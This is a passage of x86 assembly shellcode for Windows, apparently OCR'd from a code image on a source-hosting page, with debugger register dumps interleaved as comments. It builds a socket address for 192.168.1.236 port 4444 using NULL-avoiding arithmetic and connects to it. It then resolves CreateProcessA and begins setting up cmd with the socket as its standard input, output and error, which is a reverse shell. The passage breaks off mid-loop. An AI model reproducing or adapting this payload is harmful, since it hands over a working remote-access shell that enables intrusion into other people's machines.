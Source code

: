 ```s``` is a descriptor identifying an unconnected socket.<br>
    ; EDI 00000054
    ; EIP 004010EA reverse_.004010EA

callConnect:
	;set up sockaddr_in
	mov edx, 0xec02a9c1	            ;the IP plus 0x01010101 so we avoid NULLs (IP=192.168.1.236)
	sub edx, 0x01010101	            ;subtract from edx to obtain the real IP
	push edx                        ;push sin_addr
	push word 0x5c11                ;0x115c = (port 4444)
	xor edx, edx
	mov dl, 2
	push dx	
	mov edx, esp
	push byte 0x10
	push edx
	push edi
	call eax

    ; EAX 00000000
    ; ECX 00347010
    ; EDX 77DB64F4 ntdll.KiFastSystemCallRet
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDBC
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000054
    ; EIP 00401108 reverse_.00401108

getCreateProcessA:
	xor ecx, ecx 					; zeroing ECX
	push 0x61614173					; aaAs
	sub word [esp + 0x2], 0x6161 	; aaAs - aa
	push 0x7365636f 				; ecor
	push 0x72506574					; rPet
	push 0x61657243 				; aerC
	push esp 						; push the pointer to stack
	push ebx 						; kernel32 handler
	call ebp 						; GetProcAddress(kernel32.dll, CreateProcessA)
	mov esi, ebx                    ; save kernel32.dll handler for future purposes

    ; EAX 76662062 kernel32.CreateProcessA
    ; ECX 76660000 kernel32.76660000
    ; EDX 76660000 kernel32.76660000
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDAC ASCII "CreateProcessA"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76660000 kernel32.76660000
    ; EDI 00000054
    ; EIP 00401129 reverse_.00401129

shell:
	push 0x61646d63                 ; push admc
	sub word [esp + 0x3], 0x61      ; sub a to admc = dmc
	mov ebx, esp                    ; save a pointer to the command line
	push edi                        ; our socket becomes the shells hStdError
	push edi                        ; our socket becomes the shells hStdOutput
	push edi                        ; our socket becomes the shells hStdInput
	xor edi, edi                    ; Clear edi for all the NULL's we need to push
	push byte 0x12                  ; We want to place (18 * 4) = 72 null bytes onto the stack
	pop ecx                         ; Set ECX for the loop

push_loop:
	push edi                        ; push a null dword
```